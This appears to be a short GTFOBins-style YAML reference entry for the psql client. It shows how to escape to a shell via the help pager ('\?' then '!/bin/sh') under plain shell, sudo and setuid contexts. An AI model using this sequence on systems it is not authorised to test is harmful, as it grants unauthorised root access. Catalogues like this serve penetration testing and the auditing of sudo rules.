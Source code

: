 ```yaml
---
functions:
  shell:
    - code: |
        psql
        \?
        !/bin/sh
  sudo:
    - code: |
        psql
        \?
        !/bin/sh
  suid:
    - code: |
        psql
        \?
        !/bin/sh
---
```

